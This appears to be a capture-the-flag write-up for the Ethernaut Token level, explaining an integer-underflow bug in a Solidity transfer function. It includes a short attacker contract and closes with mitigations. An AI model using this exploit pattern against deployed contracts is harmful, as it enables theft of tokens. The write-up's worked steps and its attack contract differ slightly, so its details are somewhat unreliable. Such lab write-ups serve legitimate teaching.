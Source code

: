 In Ethernaut Token Challenge 5, you are given 20 tokens to start with, and your objective is to acquire additional tokens, preferably a very large amount.

The vulnerability in this contract lies in the lack of proper handling of integer underflows and overflows. When a uint (unsigned integer) reaches its byte size, an overflow occurs, and the next element added will wrap around to the first variable element. Conversely, an underflow happens when a uint8, for example, is zero, and you subtract one from it, resulting in 255.

The issue occurs in the lines `require(balances[msg.sender] - _value >= 0)` and `balances[msg.sender] -= _value`. To exploit this, transfer 21 tokens to another address, causing an underflow and setting your balance to a very large number.

```solidity
function transfer(address _to, uint _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
```

To exploit this vulnerability, the attacker can transfer 21 tokens (more than the initial 20) to another address. This will cause an underflow, setting the balance to a very large number.

```solidity
contract TokenAttack {
    IToken private _token;

    constructor(address _target) public {
        _token = IToken(_target);
    }

    function attack() public {
        _token.transfer(msg.sender, 1);
    }
}

```

To prevent underflows and overflows in Solidity, there are two options:

1. Use OpenZeppelin's SafeMath library, which automatically checks for overflows and underflows in all mathematical operators.
2. Use Solidity version 0.8 or later, which includes built-in overflow and underflow checks that cause a revert if they occur.
